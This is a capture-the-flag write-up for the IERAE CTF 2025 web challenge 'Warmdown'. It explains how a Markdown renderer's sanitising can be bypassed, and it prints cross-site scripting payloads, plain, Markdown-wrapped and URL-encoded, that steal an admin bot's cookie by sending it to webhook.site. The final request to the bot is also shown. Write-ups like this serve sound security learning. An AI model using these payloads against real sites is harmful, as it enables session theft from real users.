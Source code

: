 # Challenge Details
Challenge name: Warmdown  
Competition: IERAE CTF 2025  
Category: Web/warmup  
Difficulty: Easy  
Points: 138  
Solves: 135

# Challenge Description
Warmdown = Warmup + Markdown

Challenge: http://34.146.192.216:3000
Admin bot: http://34.85.61.65:1337

# About the challenge
Nice challenge involving getting the bots cookie with a webhook.

# Solve
```js
const context = await browser.createBrowserContext();
try {
    await context.setCookie({
      name: "FLAG",
      value: FLAG,
      domain: APP_HOST,
      path: "/",
});
...
await page.goto(url, { timeout: 5_000 });
```
The bot uses Puppeteer to manually **set the flag as a cookie** in the browser context before visiting the page. It then **visits the url that you provide** it. 

Note: you will only be able to access the cookie if the url you provided is the same domain as **APP_HOST**. In this case its just "web".

To do a simple xss attack you can do 
```js
<img src = "x" onerror = "fetch('https://webhook.site/?c=' + encodeURIComponent(document.cookie))">
```
We will pass the payload to the bot by putting it in the markdown parameter.

BUT WAIT, take a look at the web pages backend:
```js
const sanitize = (unsafe) => unsafe.replaceAll("<", "＜").replaceAll(">", "＞");

const escapeHtml = (str) =>
  str
    .replaceAll("&", "&amp;")
    .replaceAll("<", "&lt;")
    .replaceAll(">", "&gt;")
    .replaceAll('"', "&quot;")
    .replaceAll("'", "&#039;");

const unescapeHtml = (str) =>
  str
    .replaceAll("&amp;", "&")
    .replaceAll("&lt;", "<")
    .replaceAll("&gt;", ">")
    .replaceAll("&quot;", '"')
    .replaceAll("&#039;", "'");

app.get("/render", async (req, reply) => {
  const markdown = sanitize(String(req.query.markdown));
  if (markdown.length > 1024) {
    return reply.status(400).send("Too long");
  }

  const escaped = escapeHtml(marked.parse(markdown));
  const unescaped = unescapeHtml(escaped);

  return { escaped, unescaped };
});
```
Our payload will undergo sanitisation, as well as become parsed through **marked.parse(markdown)**!!

*<span style="font-size: 12px">As our input undergoes escapeHTML but then immediately undergoes unescapeHTML, we can ignore it. </span>*

We will have to change the format of our payload to **Markdown format**

```js
![x" onerror="fetch('https://webhook.site/.../?c='+encodeURIComponent(document.cookie))" z="](x)
```
URL encoding gives us
```js
%21%5Bx%22%20onerror%3D%22fetch('https%3A%2F%2Fwebhook.site%2F....%2F%3Fc%3D'%2BencodeURIComponent(document.cookie))%22%20z%3D%22%5D(x)
```
## Final payload that we can send to burpsuite/curl
```
POST /api/report HTTP/1.1
Host: 34.85.61.65:1337
Content-Type: application/json
Content-Length: 218

{"url":"http://web:3000/?markdown=%21%5Bx%22%20onerror%3D%22fetch('https%3A%2F%2Fwebhook.site%2F.....%2F%3Fc%3D'%2BencodeURIComponent(document.cookie))%22%20z%3D%22%5D(x)"}
```

Flag: IERAE{I_know_XSS_is_the_m0st_popular_vu1nerabili7y}
